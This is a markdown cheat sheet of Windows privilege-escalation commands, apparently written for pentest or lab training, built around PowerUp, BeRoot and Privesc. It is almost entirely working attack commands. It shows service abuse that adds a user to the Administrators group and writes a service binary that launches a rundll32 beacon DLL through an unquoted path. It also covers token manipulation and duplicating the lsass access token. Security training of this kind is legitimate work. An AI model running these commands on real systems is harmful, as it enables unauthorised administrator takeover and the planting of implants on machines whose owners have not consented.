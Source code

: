 # Script tools
### Always Focussing on Service issues✔

 **1-PowerUp**

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

 https://github.com/HarmJ0y/PowerUp
 
\
**Check for vulnerable programs and configs**
~~~
Invoke-AllChecks
~~~
\
**Exploit vulnerable service permissions (does not require touching disk)❤️**
~~~
Invoke-ServiceAbuse -Name "VulnerableSvc" -Command "net localgroup Administrators DOMAINxxx\userxxxx /add"

Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
~~~
\
**Get services with unquoted paths and a space in their name.** 
~~~
Get-ServiceUnquoted -Verbose 

Unquoted paths should have two options: 
1-CanRestart: True To restart the service 
2-StartName: LocalSystem should be another account or services to Privilege Escalation 

~~~
\
**Exploit an unquoted service path vulnerability to spawn a beacon**
~~~
Get-ServiceUnquoted -Verbose

Get-ModifiableServiceFile -Verbose

Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'
~~~
\
**Restart the service to exploit (not always required)**
~~~
net.exe stop VulnerableSvc net.exe start VulnerableSvc
~~~
\
**Get services where the current user can write to its binary path or change arguments to the binary**
~~~
 Get-ModifiableServiceFile -Verbose
~~~
\
**Get the services whose configuration current user can modify.**  
 ~~~
Get-ModifiableService -Verbose
~~~
\
**Check localgroup admins**  
~~~
net localgroup Administrators
~~~
\
**2-BeRoot:** 
https://github.com/AlessandroZ/BeRoot 
~~~
.\beRoot.exe
~~~
\
**3– Privesc:**
 https://github.com/enjoiz/Privesc 
~~~
. .\privesc.ps1
Invoke-PrivEsc
~~~
\
**Scripts**
\
**1-Creates processes with other users logon tokens**👀

~~~
Invoke-TokenManipulation
~~~
\
**2-Duplicates the Access token of lsass**
~~~
Enable-DuplicateToken.ps1
~~~
